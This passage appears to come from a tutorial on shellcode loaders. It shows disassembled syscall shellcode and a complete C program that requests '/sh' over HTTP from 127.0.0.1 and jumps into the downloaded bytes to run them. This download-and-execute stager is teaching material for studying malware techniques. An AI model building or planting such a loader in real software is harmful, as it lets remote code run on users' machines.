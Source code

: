 ```
            0x0000002b      210a           and dword [rdx], ecx
            0x0000002d      00ff           add bh, bh
```
As you see, in here we are directly dealing with syscalls (see the syscall instruction), also note that we have two of them one for print one for exit and the string is somehow selfcontained within the code.


Let's go for the host programnow, it will look similar as the previous http client we messed with:

```
#include <stdio.h>
#include <stdlib.h>
#include <netdb.h>
#include <netinet/in.h>
#include <string.h>
#include <stdlib.h> 
#include <fcntl.h>
#include <stdlib.h>

#define BSIZE 256
#define KSIZE 11


int main(int argc, char *argv[]) {
   int sockfd, portno, n;
   struct sockaddr_in serv_addr;
   struct hostent *server;
   char key[KSIZE];
   char request[] = "GET /sh HTTP/1.1\r\nUser-Agent: nc/0.0.1\r\nHost: 127.0.0.1\r\nAccept: */*\r\n\r\n";
   char buffer[BSIZE];

   portno = 80;
   sockfd = socket(AF_INET, SOCK_STREAM, 0);
   server = gethostbyname("127.0.0.1");

   
   bzero((char *) &serv_addr, sizeof(serv_addr));
   serv_addr.sin_family = AF_INET;
   bcopy((char *)server->h_addr, (char *)&serv_addr.sin_addr.s_addr, server->h_length);
   serv_addr.sin_port = htons(portno);

   if (connect(sockfd, (struct sockaddr*)&serv_addr, sizeof(serv_addr)) < 0) {
      exit(1);
   }

   bzero(buffer,BSIZE);

   n = write(sockfd, request, strlen(request));

   bzero(buffer,BSIZE);
   n = read(sockfd, buffer, BSIZE);
   printf("jumpting to shellcode\n");
   int (*func)();
   func = (int (*)()) buffer;
   (int)(*func)();

   return 0;
}
```
That'll be it, our small int func buffer routine has been added at the end and this time we are not reading a string but some executable bytes.

